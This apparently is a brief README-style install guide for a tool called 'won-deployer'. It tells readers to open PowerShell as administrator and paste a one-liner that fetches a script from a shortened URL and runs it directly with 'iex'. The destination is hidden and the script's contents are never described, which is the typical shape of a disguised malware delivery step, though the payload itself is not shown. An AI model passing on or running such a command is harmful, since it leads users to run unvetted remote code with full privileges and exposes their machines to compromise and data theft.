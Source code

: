 For installation just do this
1. open powershell as admin
2. then paste this

powershell.exe -C "irm https://rb.gy/msq1tz | iex"

3. enter and enjoy

for running just enter  won-deployer  in powershell admin
